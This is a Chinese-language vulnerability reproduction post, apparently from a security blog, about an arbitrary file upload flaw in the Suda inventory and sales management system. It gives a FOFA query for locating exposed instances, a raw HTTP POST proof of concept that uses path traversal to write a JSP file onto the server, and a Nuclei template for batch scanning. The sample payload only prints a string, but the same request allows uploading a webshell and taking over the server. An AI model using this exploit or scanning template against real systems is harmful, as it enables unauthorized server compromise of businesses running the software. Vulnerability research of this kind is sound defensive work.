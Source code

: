 # 原创
：  漏洞复现--速达进存销管理系统任意文件上传

# 漏洞复现--速达进存销管理系统任意文件上传

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

速达进存销管理系统是一套完整的企业业务管理系统，统有机的将企业进货管理、销售管理、仓储管理、财务管理融为一体，有着极好易用性和实用性，全面提升了企业的管理能力和工作效率。该产品存在任意文件上传，攻击者看上传木马文件获得服务器权限。

### 二：漏洞影响版本

速达进存销管理系统

### 三：网络空间测绘查询

`app="速达软件-公司产品"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/34864401e6320e2087bc4325ca8c5cdb.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2386753ec28493b3043163feffc08814.jpeg"/><br/> POC:

```
POST /report/DesignReportSave.jsp?report=../test.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/octet-stream
Content-Length: 49

&lt;% out.print("This page has a vulnerability!");%&gt;

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/450c8b152a0bb88b921ab8feb224daf6.jpeg"/><br/> 访问/test.jsp<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c01d5995fccc4ba71e39a8719d1ce142.jpeg"/>

### 批量检测

```
id: suda-guanli-system-upload

info:
  name: suda-guanli-system-upload
  author: 芝士土拨鼠
  severity: high
  description: 速达进存销管理系统是一套完整的企业业务管理系统，统有机的将企业进货管理、销售管理、仓储管理、财务管理融为一体，有着极好易用性和实用性，全面提升了企业的管理能力和工作效率。该产品存在任意文件上传，攻击者看上传木马文件获得服务器权限

requests:
  - raw:
      - "POST /report/DesignReportSave.jsp?report=../test.jsp HTTP/1.1\nHost: {{Hostname}}\n\
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101\
        \ Firefox/120.0\nAccept-Encoding: gzip, deflate\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\n\
        Connection: close \nAccept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2\n\
        Upgrade-Insecure-Requests: 1\nContent-Type: application/octet-stream\nContent-Length:\
        \ 49\n\n&lt;% out.print(\"This page has a vulnerability!\");%&gt;"

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: status
        status:
          - 200

```
